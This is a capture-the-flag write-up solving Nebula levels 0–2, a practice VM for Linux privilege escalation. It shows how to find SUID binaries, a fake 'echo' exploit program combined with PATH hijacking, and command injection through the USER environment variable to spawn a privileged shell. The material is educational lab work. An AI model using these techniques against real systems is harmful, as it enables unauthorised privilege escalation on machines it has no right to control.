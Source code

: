 ```yaml
---
title: "Writeup: Nebula (level 0 - level 2)"
date: 2020-12-16T14:42:58+08:00
draft: false
---
```


Nebula is a virtual machine that covers a variety of challenges about Linux privilege escalation, scripting language issues, and file system race conditions. It is available at [Exploit Exercises](https://exploit-exercises.lains.space/). 

<br>

## Level 0

Here is the description about Level 0. 

```
About
This level requires you to find a Set User ID program that will run as the “flag00”
account. You could also find this by carefully looking in top level directories in 
/ for suspicious looking directories.

Alternatively, look at the find man page.

To access this level, log in as level00 with the password of level00.

Source code
There is no source code available for this level
```

According to the hint, we need to find a program which can run as the "flag00". Basically, "find" is used to search for files in a directory hierarchy. Unix systems also provide the flag `-perm` to find the file based on its permission. 

First, login in as level00 and check the identifier information. 

![](https://github.com/chuang76/image/blob/master/00-1.PNG?raw=true)

As we mentioned above, we can search our target with find command. The slash (/) symbol means the root directory. To avoid the verbose error message, let's redirect stderr to a file called err (or you can redirect unwanted output to /dev/null). 

```
$ find / -type f -perm /u+s 2>err | grep "flag00"
```

Two files match the conditions. 

![](https://github.com/chuang76/image/blob/master/00-2.PNG?raw=true)

As you can see, the owner and the group of /bin/.../flag00 and /rofs/bin/.../flag00 is flag00 and level00, respectively. The vulnerability is that the permission of files was set to `rwsr-xr--`, that is, they are Set-UID programs. Since we logged in as level00, when we run the programs, we can get the privilege as the owner flag00. 

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/00-3.PNG?raw=true)

<br>

## Level 1

The description of Level 1 is provided as follows. 

```
There is a vulnerability in the below program that allows arbitrary programs 
to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. 
Files for this level can be found in /home/flag01.
```

The source code is also available. 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
    gid_t gid;
    uid_t uid;
    gid = getegid();
    uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/usr/bin/env echo and now what?");
}
```

Let's run the program. The parameter "/usr/bin/env" is used to set the PATH. PATH is an environment variable in Unix-based systems, it tells the shell which directories to search for executable files. Then, the program displays the text "and now what". 

However, there is a vulnerability: flag01 is a Set-UID program while it contains a system() function. So it provides the attackers to execute an arbitrary shell command. 

![](https://github.com/chuang76/image/blob/master/01-1.PNG?raw=true)

Our goal is to execute system("/bin/bash"), but how can we modify the parameters of system function? Here is a solution: we can modify "echo" as an executable to execute the /bin/bash command. In other words, we deceive the program to make it run echo as an executable, instead of its original functionality (i.e., display the text). 

Here is our exploit program in the /home/level01 directory, compile it and name the executable as echo. 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char** argv)
{
    gid_t gid = getegid();
    uid_t uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/bin/bash");
}
```

Next, let's set the PATH variable. Actually, PATH is a list of directories that are walked through in the order. The colon (:) symbol is a separator. Hence, our prepared directory (i.e., the directory that contains executable echo) should be added before the original PATH variable ($PATH). So it should be 

```
$ export PATH=/home/level01:$PATH 
```

rather than

```
$ export PATH=$PATH:/home/level01
```

Run flag01 again, and get the flag. 

![](https://github.com/chuang76/image/blob/master/01-3.PNG?raw=true)

<br>

## Level 2

The description of Level 2 is provided as follows. 

```
There is a vulnerability in the below program that allows arbitrary programs 
to be executed, can you find it?

To do this level, log in as the level02 account with the password level02. 
Files for this level can be found in /home/flag02.
```

The source code is available. 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
    char *buffer;

    gid_t gid;
    uid_t uid;

    gid = getegid();
    uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    buffer = NULL;

    asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
    printf("about to call system(\"%s\")\n", buffer);

    system(buffer);
}
```

The function getenv() is used to get environment variables. The function asprintf() is used to print to allocated string. It is identical to printf(), except that after executing asprintf(), the first parameter will point to a certain string. In our case, buffer is going to point to the string "/bin/echo %s is cool", and will be treated as the parameter of system() function. 

Again, our goal is to perform system("/bin/bash"). The program contains a vulnerability: it provides the user to feed an arbitrary string to the program. As a result, we can make "/bin/bash" as the value of the key USER. 

Wait, something smells fishy. The string "/bin/echo /bin/bash is cool" can not make system function run properly. Since we aren't able to control the characters "/bin/echo is cool", we can craft the string to run multiple commands. For example, 

```
"/bin/echo && /bin/bash && /bin/echo is cool"
           ^^^^^^^^^^^^^^^^^^^^^^^^^           the value of the key "USER"
```

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/02-1.PNG?raw=true)

<br>

## Brief Summary 

The vulnerabilities of Set-UID programs:

1. user inputs
2. environment variables
3. system inputs controlled by users.

